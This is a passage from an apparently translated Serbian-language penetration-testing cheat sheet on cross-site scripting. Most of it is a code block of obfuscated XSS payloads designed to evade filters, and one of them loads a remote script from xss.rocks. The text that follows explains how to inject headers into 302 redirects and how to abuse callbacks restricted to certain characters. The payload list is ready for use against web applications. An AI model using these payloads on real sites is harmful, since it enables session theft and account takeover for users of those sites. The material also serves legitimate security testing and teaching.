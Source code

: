 ```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```

### XSS sa ubacivanjem zaglavlja u 302 odgovoru

Ako otkrijete da možete **ubaciti zaglavlja u 302 Redirect odgovor**, možete pokušati **naterati pregledač da izvrši proizvoljni JavaScript**. Ovo nije **trivijalno** jer moderni pregledači ne tumače telo HTTP odgovora ako je statusni kod HTTP odgovora 302, pa je samo XSS payload beskoristan.

U [**ovom izveštaju**](https://www.gremwell.com/firefox-xss-302) i [**ovom**](https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) možete pročitati kako možete testirati nekoliko protokola unutar zaglavlja Lokacija i videti da li bilo koji od njih omogućava pregledaču da pregleda i izvrši XSS payload unutar tela.

Prošli poznati protokoli: `mailto://`, `//x:1/`, `ws://`, `wss://`, _prazno zaglavlje Lokacija_, `resource://`.

### Samo slova, brojevi i tačke

Ako možete naznačiti **callback** koji će JavaScript **izvršiti** ograničen na ove karaktere, [**pročitajte ovaj odeljak ovog posta**](./#javascript-function) da biste saznali kako iskoristiti ovaj ponašanje.

### Validni `<script>` Content-Type za XSS
